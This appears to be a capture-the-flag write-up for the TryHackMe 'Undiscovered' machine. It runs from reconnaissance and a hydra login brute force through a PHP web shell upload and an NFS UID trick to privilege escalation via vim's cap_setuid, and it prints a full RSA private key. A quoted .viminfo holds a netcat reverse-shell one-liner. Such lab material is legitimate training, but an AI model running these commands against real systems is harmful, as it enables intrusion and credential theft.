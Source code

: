 > Undiscovered

# Nmap

nmap -sC -sV -T4 -Pn -A -vv -p- -oN nmap/initial 10.10.156.136

```bash
22/tcp    open  ssh      syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http     syn-ack Apache httpd 2.4.18
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://undiscovered.thm
111/tcp   open  rpcbind  syn-ack 2-4 (RPC #100000)
2049/tcp  open  nfs      syn-ack 2-4 (RPC #100003)
34697/tcp open  nlockmgr syn-ack 1-4 (RPC #100021)
```

Nothing in NFS let's try directory bruteforcing. 

# Gobuster

gobuster dir -u http://undiscovered.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -q -o gobuster/initial

```bash
/images               (Status: 301) [Size: 321] [--> http://undiscovered.thm/images/]
/server-status        (Status: 403) [Size: 281]
```

Nothing here too! Let's try for virtual hosts.

gobuster vhost -u http://undiscovered.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -t 50 -q -o gobuster/vhosts 

Wow! What? Looks like we are getting more garbage 302 results let's just focus on status code 200.

gobuster vhost -u http://undiscovered.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -t 50 -q -o gobuster/vhosts | grep 200


```bash
gobuster/vhosts:Found: manager.undiscovered.thm (Status: 200) [Size: 4584]
gobuster/vhosts:Found: dashboard.undiscovered.thm (Status: 200) [Size: 4626]
gobuster/vhosts:Found: deliver.undiscovered.thm (Status: 200) [Size: 4650]
gobuster/vhosts:Found: newsite.undiscovered.thm (Status: 200) [Size: 4584]
gobuster/vhosts:Found: develop.undiscovered.thm (Status: 200) [Size: 4584]
gobuster/vhosts:Found: network.undiscovered.thm (Status: 200) [Size: 4584]
gobuster/vhosts:Found: forms.undiscovered.thm (Status: 200) [Size: 4542]
gobuster/vhosts:Found: maintenance.undiscovered.thm (Status: 200) [Size: 4668]
gobuster/vhosts:Found: view.undiscovered.thm (Status: 200) [Size: 4521]
gobuster/vhosts:Found: mailgate.undiscovered.thm (Status: 200) [Size: 4605]
gobuster/vhosts:Found: start.undiscovered.thm (Status: 200) [Size: 4542]
gobuster/vhosts:Found: play.undiscovered.thm (Status: 200) [Size: 4521]
gobuster/vhosts:Found: terminal.undiscovered.thm (Status: 200) [Size: 4605]
gobuster/vhosts:Found: booking.undiscovered.thm (Status: 200) [Size: 4599]
gobuster/vhosts:Found: gold.undiscovered.thm (Status: 200) [Size: 4521]
gobuster/vhosts:Found: internet.undiscovered.thm (Status: 200) [Size: 4605]
gobuster/vhosts:Found: resources.undiscovered.thm (Status: 200) [Size: 4626]
```

Actually I added all the hostnames to /etc/hosts and accessed it in firefox. Only deliver.undiscovered.thm is different. Actuall the color says it! And we got Rite CMS.

gobuster dir -u http://deliver.undiscovered.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -q -o gobuster/deliver

```bash
/media                (Status: 301) [Size: 336] [--> http://deliver.undiscovered.thm/media/]
/templates            (Status: 301) [Size: 340] [--> http://deliver.undiscovered.thm/templates/]
/files                (Status: 301) [Size: 336] [--> http://deliver.undiscovered.thm/files/]    
/data                 (Status: 301) [Size: 335] [--> http://deliver.undiscovered.thm/data/]     
/cms                  (Status: 301) [Size: 334] [--> http://deliver.undiscovered.thm/cms/]      
/js                   (Status: 301) [Size: 333] [--> http://deliver.undiscovered.thm/js/]       
/LICENSE              (Status: 200) [Size: 32472]                                               
/server-status        (Status: 403) [Size: 289]
```

Accessing /data we got something interesting. We got some SQL information. In userdata we got some creds.

`admin009dbadbcd5c49a89011b47c8cb27a81fcc0f2be54669b`

In `content` file we can find something weird!

```
to_do.txt[ ] fix `showmount` issue for v2 and v3 (mounting nfs share work just fine..hmm weird)
[/] create nfs share for william on /home/william
```

Ok! Also now moving onto /cms we are promted with a login!

hydra -l admin -P /usr/share/wordlists/rockyou.txt deliver.undiscovered.thm http-post-form "/cms/:username=^USER^&userpw=^PASS^&LOGIN=log in:login_failed"

```bash
[80][http-post-form] host: deliver.undiscovered.thm   login: admin   password: liverpool
```

And yep! We are in! And we can naviagte to `Administration >> File Manager >> Upload file` and accessing `http://deliver.undiscovered.thm/media/shell.php` we have a shell!

Hmm! Let's remeber that we had NFS but couldn't access it! So let's check our `/etc/exports`.

```bash
/home/william	*(rw,root_squash)
```

Let's mount it to our system locally. But before that we have to create a user locally with same UID. We can refer /etc/passwd for this.

```bash
sudo mount -t nfs $IP:/home/william /mnt/thm
sudo useradd william -u 3003
sudo su william
cd /mnt/thm
cat /home/n00bmast3r/TryHackMe/Undiscovered/william.pub > .ssh/authorized_keys
ssh -i william william@$IP
```

# user.txt

```
THM{8d7b7299cccd1796a61915901d0e091c}
```

Ok now moving on we can see another interesting file `script` owned by `leonard`. Running strings on the file displayed `/bin/cat` and `/home/leonard`. I assume that it can list contents in leonard's home dir. How about we try 

./script .ssh/id_rsa

```bash
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAwErxDUHfYLbJ6rU+r4oXKdIYzPacNjjZlKwQqK1I4JE93rJQ
HEhQlurt1Zd22HX2zBDqkKfvxSxLthhhArNLkm0k+VRdcdnXwCiQqUmAmzpse9df
YU/UhUfTu399lM05s2jYD50A1IUelC1QhBOwnwhYQRvQpVmSxkXBOVwFLaC1AiMn
SqoMTrpQPxXlv15Tl86oSu0qWtDqqxkTlQs+xbqzySe3y8yEjW6BWtR1QTH5s+ih
hT70DzwhCSPXKJqtPbTNf/7opXtcMIu5o3JW8Zd/KGX/1Vyqt5ememrwvaOwaJrL
+ijSn8sXG8ej8q5FidU2qzS3mqasEIpWTZPJ0QIDAQABAoIBAHqBRADGLqFW0lyN
C1qaBxfFmbc6hVql7TgiRpqvivZGkbwGrbLW/0Cmes7QqA5PWOO5AzcVRlO/XJyt
+1/VChhHIH8XmFCoECODtGWlRiGenu5mz4UXbrVahTG2jzL1bAU4ji2kQJskE88i
72C1iphGoLMaHVq6Lh/S4L7COSpPVU5LnB7CJ56RmZMAKRORxuFw3W9B8SyV6UGg
Jb1l9ksAmGvdBJGzWgeFFj82iIKZkrx5Ml4ZDBaS39pQ1tWfx1wZYwWw4rXdq+xJ
xnBOG2SKDDQYn6K6egW2+aNWDRGPq9P17vt4rqBn1ffCLtrIN47q3fM72H0CRUJI
Ktn7E2ECgYEA3fiVs9JEivsHmFdn7sO4eBHe86M7XTKgSmdLNBAaap03SKCdYXWD
BUOyFFQnMhCe2BgmcQU0zXnpiMKZUxF+yuSnojIAODKop17oSCMFWGXHrVp+UObm
L99h5SIB2+a8SX/5VIV2uJ0GQvquLpplSLd70eVBsM06bm1GXlS+oh8CgYEA3cWc
TIJENYmyRqpz3N1dlu3tW6zAK7zFzhTzjHDnrrncIb/6atk0xkwMAE0vAWeZCKc2
ZlBjwSWjfY9Hv/FMdrR6m8kXHU0yvP+dJeaF8Fqg+IRx/F0DFN2AXdrKl+hWUtMJ
iTQx6sR7mspgGeHhYFpBkuSxkamACy9SzL6Sdg8CgYATprBKLTFYRIUVnZdb8gPg
zWQ5mZfl1leOfrqPr2VHTwfX7DBCso6Y5rdbSV/29LW7V9f/ZYCZOFPOgbvlOMVK
3RdiKp8OWp3Hw4U47bDJdKlK1ZodO3PhhRs7l9kmSLUepK/EJdSu32fwghTtl0mk
OGpD2NIJ/wFPSWlTbJk77QKBgEVQFNiowi7FeY2yioHWQgEBHfVQGcPRvTT6wV/8
jbzDZDS8LsUkW+U6MWoKtY1H1sGomU0DBRqB7AY7ON6ZyR80qzlzcSD8VsZRUcld
sjD78mGZ65JHc8YasJsk3br6p7g9MzbJtGw+uq8XX0/XlDwsGWCSz5jKFDXqtYM+
cMIrAoGARZ6px+cZbZR8EA21dhdn9jwds5YqWIyri29wQLWnKumLuoV7HfRYPxIa
bFHPJS+V3mwL8VT0yI+XWXyFHhkyhYifT7ZOMb36Zht8yLco9Af/xWnlZSKeJ5Rs
LsoGYJon+AJcw9rQaivUe+1DhaMytKnWEv/rkLWRIaiS+c9R538=
-----END RSA PRIVATE KEY-----
```

In remote machine, follow the steps to escalate as leonard!

```bash
nano id_rsa
chmod 600 id_rsa
ssh -i id_rsa leonard@localhost
```

# Priv Esc

Let's run linpeas. We can find something interesting

```bash
Files with capabilities:
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/vim.basic = cap_setuid+ep
```

Looking at .viminfo we can see that the user leonard has tried to get a reverse shell using vim.

```bash
# File marks:
'0  3  0  :py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
'1  1  0  :py3 import os;os.setuid(0);os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.68.129 1337 >/tmp/f")
'2  1  0  :py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
'3  3  0  :py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")

# Jumplist (newest first):
-'  3  0  :py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
-'  1  0  :py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
-'  1  0  :py3 import os;os.setuid(0);os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.68.129 1337 >/tmp/f")
-'  1  0  :py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
-'  3  0  :py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
-'  1  0  :py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
-'  3  0  :py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
-'  1  0  :py3 import os;os.setuid(0);os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.68.129 1337 >/tmp/f")
-'  1  0  :py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
-'  3  0  :py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
-'  1  0  :py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
-'  3  0  :py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
-'  3  0  :py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
-'  1  0  :py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
-'  1  0  :py3 import os;os.setuid(0);os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.68.129 1337 >/tmp/f")
```

Let's take a look at GTFO Bins

```
Capabilities: 
If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.
This requires that vim is compiled with Python support. Prepend :py3 for Python 3.

./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

Since we are working with python3 let's use :py3 and we have vim.basic set with `cap_setuid+ep
set with `

```
/usr/bin/vim.basic -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

And we are in as root!